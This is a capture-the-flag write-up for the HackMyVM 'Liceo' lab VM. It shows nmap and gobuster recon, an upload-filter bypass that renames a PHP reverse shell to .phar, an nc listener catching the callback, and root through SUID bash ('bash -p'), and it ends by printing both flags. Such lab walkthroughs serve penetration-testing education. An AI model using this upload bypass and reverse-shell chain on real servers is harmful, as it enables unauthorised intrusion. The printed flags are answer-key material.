


# 🖥️ Writeup - Liceo 

**Platform:** HackMyVM  
**Operating System:** Linux  

# INSTALLATION

We download the `zip` containing the `.ova` of the Liceo machine, extract it, and import it into VirtualBox.

We configure the network interface of the Liceo machine and run it alongside the attacker machine.

# HOST DISCOVERY

At this point, we still don’t know which `IP` address is assigned to Liceo, so we discover it as follows:

```bash
netdiscover -i eth1 -r 10.0.0.0/24
```
Info:
```
Currently scanning: 10.0.0.0/16   |   Screen View: Unique Hosts               
                                                                               
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.0.4.1        52:54:00:12:35:00      1      60  Unknown vendor              
 10.0.4.2        52:54:00:12:35:00      1      60  Unknown vendor              
 10.0.4.3        08:00:27:cc:8c:61      1      60  PCS Systemtechnik GmbH      
 10.0.4.35       08:00:27:a4:e1:a2      1      60  PCS Systemtechnik GmbH
 ```

 We identify with high confidence that the victim’s IP is `10.0.4.35`.

# PORT SCANNING

Next, we perform a general scan to check which ports are open, followed by a more exhaustive scan to gather relevant service information.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 10.0.4.35
``` 

```bash
nmap -n -Pn -sCV -p21,22,80 --min-rate 5000 10.0.4.35
```
Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-09 19:04 CET
Nmap scan report for 10.0.4.35
Host is up (0.00019s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000          191 Feb 01  2024 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.0.4.12
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 68:4c:42:8d:10:2c:61:56:7b:26:c4:78:96:6d:28:15 (ECDSA)
|_  256 7e:1a:29:d8:9b:91:44:bd:66:ff:6a:f3:2b:c7:35:65 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Liceo
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 08:00:27:A4:E1:A2 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.93 seconds
```

We identify ports `21`, `22`, and `80` as open.

We access the web service on port `80` and encounter the following page:


# GOBUSTER

We perform `directory fuzzing` to try to locate hidden directories or files.

```bash
gobuster dir -u http://10.0.4.35 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60
```

Info:
```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.4.35
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              bak,sh,html,zip,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 307] [--> http://10.0.4.35/images/]
/index.html           (Status: 200) [Size: 21487]
/uploads              (Status: 301) [Size: 308] [--> http://10.0.4.35/uploads/]
/upload.php           (Status: 200) [Size: 371]
/css                  (Status: 301) [Size: 304] [--> http://10.0.4.35/css/]
/js                   (Status: 301) [Size: 303] [--> http://10.0.4.35/js/]
Progress: 41610 / 1543906 (2.70%)
```

We discover an `/uploads` directory and an `upload.php` file.
We navigate to `upload.php` and see a panel that allows us to upload a file:


We attempt to upload a `shell.php` file so that, upon execution, it returns a `reverse shell` to our attacking machine. We utilize the `php-reverse-shell` file from `PentestMonkey` on `GitHub`.



However, we encounter an error stating that uploading `.php` files is not permitted.

We change the file extension to attempt to bypass the system's detection of `PHP` files.

```bash
cp shell.php shell.phar
```

We now test uploading `shell.phar`.


It works. We have successfully uploaded the file.

If we now navigate to the `/uploads` directory, we find the file we just uploaded.



We set up a `listener` on our attacking machine, waiting to receive the connection.

```bash
nc -nlvp 4444
```

Next, we execute the `.phar` file from the `/uploads` directory, which should return a `shell` to our `listener`.

Info:
```
listening on [any] 4444 ...
connect to [10.0.4.12] from (UNKNOWN) [10.0.4.35] 53512
Linux liceoserver 5.15.0-92-generic #102-Ubuntu SMP Wed Jan 10 09:33:48 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 18:23:57 up 21 min,  0 users,  load average: 0.00, 0.03, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

We receive the shell as the `www-data` user.

# TTY

Before attempting privilege escalation, we upgrade the `TTY` for a more interactive shell:

```bash
script /dev/null -c bash
```
`ctrl Z`
```bash
stty raw -echo; fg
```
```bash
reset xterm
```
```bash
export TERM=xterm
```
```bash
export BASH=bash
```

# PRIVILEGE ESCALATION

We check for `sudo` and `SUID` permissions.

```bash
find / -perm -4000 -type f 2>/dev/null
```

Info:
```
/snap/snapd/20671/usr/lib/snapd/snap-confine
/snap/core20/2105/usr/bin/chfn
/snap/core20/2105/usr/bin/chsh
/snap/core20/2105/usr/bin/gpasswd
/snap/core20/2105/usr/bin/mount
/snap/core20/2105/usr/bin/newgrp
/snap/core20/2105/usr/bin/passwd
/snap/core20/2105/usr/bin/su
/snap/core20/2105/usr/bin/sudo
/snap/core20/2105/usr/bin/umount
/snap/core20/2105/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/2105/usr/lib/openssh/ssh-keysign
/snap/core20/1974/usr/bin/chfn
/snap/core20/1974/usr/bin/chsh
/snap/core20/1974/usr/bin/gpasswd
/snap/core20/1974/usr/bin/mount
/snap/core20/1974/usr/bin/newgrp
/snap/core20/1974/usr/bin/passwd
/snap/core20/1974/usr/bin/su
/snap/core20/1974/usr/bin/sudo
/snap/core20/1974/usr/bin/umount
/snap/core20/1974/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1974/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/mount
/usr/bin/umount
/usr/bin/sudo
/usr/bin/bash
/usr/bin/fusermount3
/usr/libexec/polkit-agent-helper-1
```

We observe that the `bash` binary has the `SUID bit` set, so privilege escalation is very straightforward using the following command:

```bash
bash -p
```

Info:
```
bash-5.1# whoami
root
bash-5.1#
```

We are now root!

Finally, we locate the `user flag` and the `root flag`:

```
bash-5.1# cat user.txt 
71ab613fa286844425523780a7ebbab2
bash-5.1# cat root.txt 
BF9A57023EDD8CFAB92B8EA516676B0D
```